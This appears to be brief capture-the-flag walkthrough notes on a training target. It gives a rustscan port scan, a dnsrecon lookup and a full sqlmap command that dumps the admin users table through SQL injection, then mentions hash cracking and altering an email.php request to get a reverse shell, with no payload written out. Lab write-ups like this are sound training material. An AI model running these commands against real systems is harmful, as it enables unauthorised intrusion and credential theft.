 1) PortScan
```bash
rustscan -a 10.13.37.10 --ulimit 5000 -- -sV -sC -Pn
```
![[Pasted image 20230913115945.png]]
2) Digging the domain
```bash
dnsrecon -r 10.13.37.10/24 -n 10.13.37.10
```
![[Pasted image 20230913120254.png]]
3) Analyze the web traffic to find the hidden folder
![[Pasted image 20230913120456.png]]
4) Use sqlmap to retrieve the admin hash
```bash
sqlmap -u 'http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php' --batch --forms --level 3 --risk 3 -D jetadmin -T users --dump
```
![[Pasted image 20230913120601.png]]
5) Crack the hash on crack station and login
![[Pasted image 20230913120633.png]]
6) Analyze the email.php traffic and change the request to open a reverse shell
![[Pasted image 20230913121242.png]]
